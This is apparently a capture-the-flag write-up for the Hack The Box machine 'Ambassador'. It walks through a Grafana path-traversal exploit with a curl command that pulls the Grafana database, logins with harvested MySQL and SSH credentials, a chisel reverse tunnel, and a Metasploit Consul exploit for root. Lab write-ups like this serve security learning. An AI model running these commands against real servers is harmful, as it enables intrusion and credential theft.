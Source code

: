 # **1. Enumeration**
Open ports
 

80 tcp syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu)) 
22 tcp ssh
3000 tcp 
3306 tcp mysql mSQL 8.0.30-0ubuntu0.20.04.2

Checking out the website

## 1.1 port 3000 enumeration 
checking out port 3000 and it looks like another web page
![[Pasted image 20221115234036.png]]
googling the version looks like there is a common vulnerability for grafana 8.0.0 to 8.3.0
![[Pasted image 20221115234314.png]]
# 2. Exploit
copying the list in the python script because the script wasn't working and using burp intruder mode 
![[Pasted image 20221115234402.png]]
![[Pasted image 20221115234412.png]]
![[Pasted image 20221115234426.png]]
and looks like we got a hit on most of the list 
we have 2 users
developer and root
![[Pasted image 20221115234555.png]]
https://community.grafana.com/t/whitch-file-is-the-new-account-information-stored/701
found that dabatase stored in /var/lib/grafana/grafana.db
SQLite
https://github.com/jas502n/Grafana-CVE-2021-43798
password is hashed and stored here
![[Pasted image 20221116001022.png]]
dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab0690X27trve2uf960YdtaMF2022-03-13 20:26:452022-09-01 22:39:382022-09-14 16:44:19
secret key: SW2YcwTIb9zpOOhoPsMm
![[Pasted image 20221116001745.png]]

![[Pasted image 20221116004810.png]]


# 2. Foothold
found password in plain text in grafana.ini


grafana:admin:messageInABottle685427
![[Pasted image 20221116004901.png]]
didn't find anything
heading back to download sqlite database and analyz it using sqlitebrowser 
```
curl --path-as-is "ambassador.htb:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db" -o grafana.db
```

found mysql creds
![[Pasted image 20221116013740.png]]
mysql:grafana:dontStandSoCloseToMe63221!

```bash
mysql -u grafana -p'dontStandSoCloseToMe63221!' -h ambassador.htb -P 3306 
```
enumurating the database we found the user developer hashed password in base64
![[Pasted image 20221116014840.png]]

![[Pasted image 20221116014821.png]]


# 3. privesc 
ssh :developer:anEnglishManInNewYork027468
![[Pasted image 20221116015022.png]]
#userflag 44a566c885f922ea0dfc70d29314a009

![[Pasted image 20221116020441.png]]
didn't find much 
![[Pasted image 20221116022609.png]]
found readable .git repo owned by root
![[Pasted image 20221116022629.png]]
```bash
git log
```
to see latest commits
![[Pasted image 20221116023303.png]]
Consul is running on the machine on port 8500 and we have also a TOKEN
consul_token:bb03b43b-1d81-d62b-24b5-39540ee469b5
 linpeas showed that earlier also
https://developer.hashicorp.com/consul/docs/intro
![[Pasted image 20221116024049.png]]
Looking for exploits for Consul and we have 2 exploits on metasploit
but it doesn't work so we can try to pivot to chisel and reverse tunnel the service on our machine

on our machine
![[Pasted image 20221116025121.png]]
```
chisel server --reverse -p 9001

```

on our target


![[Pasted image 20221116025549.png]]
```
client 10.10.16.12:9001 R:8500:127.0.0.1:8500

```

We can now access the Consul on our machine and exploit it with metasploit

![[Pasted image 20221116025556.png]]

setting metasploit options (IP PORT ACL_TOKEN) and we run the exploit 
![[Pasted image 20221116032558.png]]

#rootflag baa8fc68e23600a3b994ab3fa151457a
